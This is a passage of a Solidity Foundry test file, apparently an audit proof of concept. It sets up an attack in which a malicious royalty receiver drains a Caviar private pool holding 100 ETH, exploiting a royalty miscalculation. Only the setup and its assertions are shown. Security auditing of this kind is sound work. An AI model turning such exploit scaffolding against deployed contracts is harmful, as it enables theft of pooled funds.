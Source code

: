 ```solidity
    }
}

contract MaliciousRoyaltyReceiverDrainPrivatePoolTest is Fixture {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721RoyaltyCollection public nft;

    /// @notice The Caviar private pool that incorrectly calculates royalties.
    PrivatePool public privatePool;

    /// @notice Merkle root is set to bytes32(0) to make setup simpler.
    bytes32 constant MERKLE_ROOT = bytes32(0);

    /// @notice The private pool has initial balance/reserve of 100 ETH (the base token is address(0)).
    uint128 constant VIRTUAL_BASE_TOKEN_RESERVES = 100e18;

    /// @notice The private pool has 5 NFTs, each one with a wight of 1e18 (the merkle root is bytes32(0)).
    uint128 constant VIRTUAL_NFT_RESERVES = 5e18;

    /// @notice The specific NFT that will be used to perform the epxloit.
    /// @notice The attacker should be the royalty receiver of this NFT.
    /// @dev Zero is used so we can pass `new uint256[](1)` as the tokenIds array.
    uint256 tokenId = 0;

    // The attacker. It is set as a royalty receiver to NFT#tokenId that will be used to perform the exploit.
    address receiver;

    function setUp() external {
        // The attacker.
        receiver = vm.addr(1);

        // The NFT collection the will be used by the private pool.
        nft = new ERC721RoyaltyCollection("VoyvodaSec", "VSC");

        _deployPrivatePool();
        _depositNFTs(tokenId);

        _fundEth();

        // Assert setup.
        assertEq(
            privatePool.nft(),
            address(nft),
            "Setup: NFT collection not set correctly."
        );
        assertEq(
            nft.ownerOf(tokenId),
            address(privatePool),
            "Setup: the NFT should initially be deposited to the private pool."
        );

        assertEq(
            privatePool.baseToken(),
            address(0),
            "Setup: the private pool base token should be ETH."
        );
        assertEq(
            address(privatePool).balance,
            VIRTUAL_BASE_TOKEN_RESERVES,
            "Setup: incorrect initial amount of ETH supplied to pool."
```